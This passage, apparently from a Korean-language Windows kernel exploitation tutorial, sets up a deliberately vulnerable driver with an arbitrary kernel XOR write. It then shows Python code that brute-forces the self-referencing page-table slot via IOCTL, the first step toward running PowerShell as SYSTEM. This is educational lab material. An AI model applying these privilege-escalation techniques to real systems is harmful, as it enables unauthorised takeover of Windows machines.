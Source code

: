 이를 바탕으로 실제 시나리오를 작성해 보겠습니다. 다음과 같은 오라클이 존재하는 Windows (NT 커널) 시스템을 가정합니다. 공격자는 이미 유저 모드에 대한 접근 권한을 전부 획득했습니다.

```cpp
NTSTATUS VulnOracle(_In_ ORACLE_INPUT *input)
{
    // Check if the address is a kernel address and has write access
    if (IsKernelAddress((PVOID)input->Where) && !HasWriteAccess((PVOID)input->Where))
        return STATUS_ACCESS_VIOLATION;

    *(volatile ULONG64 *)input->Where ^= input->What;
    return STATUS_SUCCESS;
}
```

## 목표

우선 최종 목표는 `NT AUTHORITY\System` 권한으로 PowerShell을 실행하는 것입니다. 이 목표를 달성하기 위해서는 다음과 같은 개략적인 시나리오를 따라갈 수 있습니다.

- 임의 주소 읽기를 해금한다.
- NT 커널 베이스를 획득한다.
- 쉘을 획득한다.

이제 자세히 알아보도록 합시다.

## 시나리오

### Unlocking AAR

우선 이렇게 아무 주소나 접근 가능하다고 해도, 어디부터 접근할지 감이 안 잡힙니다. 문서에서 말한 대로 우선 `SelfSlot` 을 구하겠습니다. 256가지의 경우의 수 중 하나를 확률적으로 맞춰도 충분히 합리적이지만, `HasWriteAccess` 함수 덕분에 커널 모드 주소 쓰기에 실패한다고 해서 즉시 블루 스크린을 유발하지 않기 때문에, 256개의 `SelfSlot` 을 전수조사할 수 있습니다.

만약 쓰기 작업에 실패해서 BSOD가 유발될 경우 시도당 1/256 확률을 뚫어야 합니다. 이는 합리적인 수준이지만, 빠른 진행을 위해 `HasWriteAccess` 함수를 사용하였습니다.

```python
selfpte_idx = None
for i in range(256, 512):
    address = build_px_table_entry(i) | (0x8 * 128)
    ts = build_oracle_input(address, 0)

    try:
        _ = device.ioctl(IOCTL_ORACLE, ts)

        # Successful Operation!
        selfpte_idx = i
        break

    except OSError as e:
        if e.winerror != 998: # STATUS_ACCESS_VIOLATION
            print(f"Unexpected error: {e}")
        continue

print(f"Self PTE index found: {selfpte_idx}")

mm_pte_base = 0xFFFF000000000000 | (selfpte_idx << 39)
mm_pde_base = mm_pte_base | (selfpte_idx << 30)
mm_ppe_base = mm_pde_base | (selfpte_idx << 21)
mm_pxe_base = mm_ppe_base | (selfpte_idx << 12)
```
